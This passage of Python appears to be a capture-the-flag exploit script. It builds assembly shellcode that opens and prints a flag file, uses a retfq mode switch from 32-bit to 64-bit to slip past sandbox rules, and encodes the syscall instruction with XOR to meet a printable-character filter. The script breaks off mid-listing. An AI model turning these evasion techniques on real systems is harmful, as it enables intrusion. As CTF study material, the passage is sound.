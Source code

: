 ```python
xor ecx,ecx

mov eax,5
int 0x80

mov ecx,eax
'''

shellcode_flag = '''
/* retfq:  mode_32 -> mode_64*/
push 0x33
push 0x40404089
retfq

/*read(fp,buf,0x70)*/
mov rdi,rcx
mov rsi,rsp
mov rdx,0x70
xor rax,rax
syscall

/*write(1,buf,0x70)*/
mov rdi,1
mov rax,1
syscall
'''
shellcode_x86 = asm(shellcode_x86)
shellcode_flag = asm(shellcode_flag, arch = 'amd64', os = 'linux')

# 0x40404040 为32位shellcode地址
shellcode_mmap = '''
/*mmap(0x40404040,0x7e,7,34,0,0)*/
push 0x40404040 /*set rdi*/
pop rdi

push 0x7e /*set rsi*/
pop rsi

push 0x40 /*set rdx*/
pop rax
xor al,0x47
push rax
pop rdx

push 0x40 /*set r8*/
pop rax
xor al,0x40
push rax
pop r8

push rax /*set r9*/
pop r9

/*syscall*/
/* syscall 的机器码是 0f 05, 都是不可打印字符. */
/* 用异或运算来解决这个问题: 0x0f = 0x5d^0x52, 0x05 = 0x5f^0x5a. */
/* 其中 0x52,0x5a 由 append 提供. */
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x31],cl
push 0x5f
```